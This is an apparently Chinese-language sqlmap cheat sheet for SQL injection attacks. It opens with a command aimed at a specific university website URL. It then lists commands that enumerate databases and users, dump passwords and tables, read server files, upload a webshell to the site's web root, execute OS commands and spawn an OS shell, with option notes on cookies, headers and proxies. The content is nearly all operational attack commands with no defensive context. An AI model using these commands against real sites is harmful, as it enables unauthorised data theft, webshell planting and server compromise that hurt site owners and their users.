 ```
Sqlmap -u http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html //在40后面加*
```

# 查看数据库

```
sqlmap -u "url" --dbs   //查看所有数据库
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色
```

**查看详细内容**

```
sqlmap -u "url" --tables -D "database" //database这个数据库的表数据表
sqlmap -u "url" --columns -T "tables" -D "database" //查看tables这个数据表的字段
sqlmap -u "url" --dump "a,b,c" -C "columns" -T "tables" -D "database" //下载内容，后面的-CTDabc都是对下载的数据库表段的约束如果不加就是下载所有
```

# 执行特殊操作

**文件查看**

```
sqlmap -u "url" –file-read= //这个读取的文件会存在本地的结果目录，请认真看提示
```

**文件写入**

```
sqlmap -u "url" --file-write=本地文件路径 --file-dest=网站的绝对路径 //上传webshell用，需要dba权限
```

**命令执行**

```
sqlmap -u "url" --os-cmd "cmd"  //执行cmd代表的命令，如cd C:/

sqlmap -u "url" --os-shell  //进入数据库自带的shell
```

# 命令总览

使用`sqlmap -hh`可以查看详细的命令说明：

```
-r 1.txt            对于用post方法提交的，参数不在URL里面的网页，可以先截获数据，保存成文件再用这个参数执行
-l log.txt          可以将代理的日志作为目标去检测[见下图]
-m 1.txt            对于多个URL，可以一排一个写入文件后加载
--force-ssl         对于使用SSL的URL要在后面加上这个参数
--data              对于使用post方法，可以将参数写在data后面
--param-del=""          
--cookie=""  level 2        对于需要验证才能访问的URL，可以加上cookie值验证，如果要检测cookie是否有注入漏洞，level要高于1
--random-agent          使用随机的user-agent
--user-agent=""  level 3    指定user-agent，如要检测它是否有漏洞level要高于2
--header="\n"           指定头信息，如User-Agent:dsacs，大小写敏感，多个用\n分隔
--method=GET POST       设置提交方式，默认一个一个的尝试
--auth-type             如果是基于http的验证，如Basic NTLM Digest，可直接加类型再配合下一个参数使用
--auth-cred "user:pass"     填写账号和密码
 --proxy="http:127.0.0.1:8087"  使用代理
```